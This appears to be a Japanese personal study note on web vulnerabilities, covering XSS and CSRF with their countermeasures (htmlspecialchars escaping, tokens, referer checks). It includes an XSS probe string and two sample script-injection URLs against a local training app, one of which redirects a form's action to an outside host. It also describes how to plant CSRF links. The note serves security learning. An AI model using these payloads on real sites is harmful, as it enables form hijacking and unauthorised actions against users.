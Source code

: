 # web脆弱性

## おすすめのサイトなど
-(OWASP JAPAN代表的な脆弱性のサイト)[https://owasp.org/www-chapter-japan/]

## コンテンツ

* 脆弱性/脅威/対策で整理していく

## XSS

* 現在も脆弱性の届け出が一番多い
* JavaScriptを使って攻撃する

### 流れ
①フォーム入力などから脆弱性を確認する。以下コマンドを入れる
```
'>"><hr>
```
②脆弱性からどのようなスクリプトが実行できるかを検討する。
HTMLやBURPを利用して攻撃コードを作成する。

name項目に脆弱性あった場合のサンプル

- titleのidを書き換える。
```
http://localhost/Users/_personal/Web/Scenario1121/VulSoft/enquete.php?page=2&sex=0&old=1&company=&xss=1&trouble=1&content=&name=<script>document.getElementById("title").innerHTML='書き換えた値'</script>
```

- action属性を書き換える
```
http://localhost/Users/_personal/Web/Scenario1122/VulSoft/enquete.php?page=2&name=&old=&company=&content=&name=<script>document.getElementById("enquete_form").action='http://google.com'</script>
```

### 対策
・レスポンスするデータに対してサーバー側でエスケープ処理を施す
→phpだとhtmlspecialchars関数を利用する

```php
$value = htmlspecialchars(nl2br($row[$k]), ENT_QUOTES, "UTF-8");
```



## CSRF
Cross Site Request forgery
- forgery：偽造

### 脆弱性内容
* **ログインしている**ユーザが意図しないリクエスをWebアプリケーションが
受け付けてしまう脆弱性

### 脆弱性判断ポイント
1. hidden属性にトークンを持っていないまたは推測可能である場合
2. 購入、更新が行われる画面からパスワードの入力を求められない場合
3. refererを確認していない場合

### 攻略方法
掲示板等にパスワード変更画面や購入画面等に遷移するためのURLを
仕込んでおく。もしくはGETでサーバーが受信しているのであればクエリストリング
で値を変更するためのリクエストをサーバーに投げるなど


### 修正方法
学習未実施（Apgoatで別途)(6/2の演習中に実施)

### 対策

1. トークン
→リクエストのトークンで判断する

2. リファラー
→どのページから遷移してきたかを確認する

3. サーバ側で処理前にパスワード要求
→画面の設計変更が必要

'https://www.ipa.go.jp/files/000017316.pdf'
p31


